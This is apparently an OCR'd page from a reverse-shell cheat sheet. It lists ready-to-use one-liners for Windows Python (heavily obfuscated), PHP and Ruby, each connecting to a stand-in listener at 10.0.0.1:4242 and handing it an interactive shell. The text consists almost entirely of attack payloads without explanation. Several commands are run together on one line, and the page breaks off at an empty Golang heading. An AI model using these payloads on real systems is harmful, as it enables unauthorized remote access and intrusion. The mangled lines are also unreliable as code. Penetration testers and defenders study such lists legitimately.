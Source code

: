 仅限windows

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'NOTE: Windows onlyruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang
